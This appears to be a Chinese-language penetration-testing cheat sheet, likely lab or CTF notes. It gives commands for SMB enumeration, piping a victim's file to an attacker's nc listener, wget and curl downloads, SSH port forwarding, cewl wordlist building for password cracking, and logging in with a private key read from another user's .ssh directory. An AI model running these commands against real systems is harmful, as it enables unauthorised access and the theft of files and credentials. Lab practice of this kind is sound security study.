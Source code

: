 ```
smbclient -L //192.168.1.136
smbclient  //192.168.1.136/Naruto
```



#### nc传文件

```
cat /home/sam/.pyc | nc 192.168.56.101 7777

nc -lvvp 7777 >exp.pyc
```

- -v 显示指令执行过程

- -u 使用udp传输协议

- -o 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。

- -n 直接使用IP地址，而不通过域名服务器。

#### wget传文件

```
wget http://xxx
```

#### curl传文件

```
curl http://xxx -o 
```

#### ssh端口转发

```
ssh -L 8080:127.0.0.1:8080 aeolus@192.168.139.135
```

> -L是本地端口，即攻击机监听的端口

#### cewl

>CeWL是一款以爬虫模式在指定URL上收集单词的工具,可以将它收集到的单词纳入密
>码字典,以提高密码破解工具的成功率。

```
cewl http://192.168.56.106/websec/ > pass.txt
```

#### 公私钥登录

**私钥**

```
#根据/etc/passwd确定用户ford后，读取私钥/home/ford/.ssh/id_rsa，复制下来，注意将id_rsa设置为700
ssh ford@192.168.56.102 -p 6688 -i id_rsa
```
